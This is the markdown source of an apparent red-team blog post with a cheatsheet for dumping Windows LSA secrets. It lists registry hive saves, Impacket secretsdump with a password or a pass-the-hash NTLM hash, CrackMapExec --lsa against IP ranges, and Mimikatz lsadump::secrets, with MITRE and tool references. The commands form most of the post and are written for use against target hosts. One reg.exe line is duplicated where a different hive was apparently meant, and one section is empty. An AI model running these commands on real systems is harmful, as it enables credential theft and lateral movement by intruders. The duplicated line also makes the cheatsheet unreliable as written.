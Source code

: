 ```yaml
---
layout: single
title:  "OS Credential Dumping: LSA Secrets"
date:   2021-11-29
categories: CredentialAccess CredentialDumping
sidebar:
    nav: "credaccess"
toc: true

---
```


# Introduction
LSA secrets is part of the data that is stored within the Local Security Authority (LSA) in Windows. LSA itself is utilized to store private data all things revolving around passwords hence why we might care about it. They live within the registry and can be found at **HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets**. Naturally since its in the registry, in order to do anything with it, we'll need to have administrative access to the system in question. So in for a penny, in for a pound...

# Cheatsheet
Most of these methods will work without any extra work, but for reference I'll add alternatives to each incase you dont have cleartext password of the user involved, in which case the NTLM hash of the user will be sufficient. If all else fails you can manually save the registry files and export them to your attacking machine and manipulate them as needed. Also, this list will not be exhaustive, as during my research a lot of these tools just piggy back off of each other so I'll list the most common/popular ones that I've seen and used myself.

## Save Registry Files:
{% highlight powershell %}
    reg.exe save HKLM\SYSTEM <NAME>
    reg.exe save HKLM\SECURITY <NAME>
    reg.exe save HKLM\SYSTEM <NAME>
{% endhighlight %}

## Impacket SecretsDump:
{% highlight shell %}
    python3 secretsdump.py <AD FQDN>/<USERNAME>:<PASSWORD>@<IP ADDRESS>
    python3 secretsdump.py -hashes <NTLM FULL HASH> <FQDN>/<USER>@<IP ADDRESS>
    python3 secretsdump.py -sam <SAMNAME> -security <SECURITYNAME> -system <SYSTEMNAME> LOCAL
{% endhighlight %}

## CrackMapExec:
{% highlight shell %}
    crackmapexec smb <IP ADDRESS OR RANGE> -u <USERNAME> -p '<PASSWORD>' --lsa
{% endhighlight %}

## Mimikatz:
{% highlight powershell %}
    lsadump::secrets /system:<LOCATION OF SYSTEM REG FILE> /security:<LOCATION OF SECURITY FILE>
{% endhighlight %}

# Down The Rabbit Hole
##
##
##


# Tool References
1. [Impacket SecretsDump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)
2. [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
3. [Mimikatz](https://github.com/gentilkiwi/mimikatz)

# References
1. [https://attack.mitre.org/techniques/T1003/004/](https://attack.mitre.org/techniques/T1003/004/)
2. [https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/](https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration/)
3. [https://www.passcape.com/index.php?section=docsys&cmd=details&id=23](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23)
4. [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)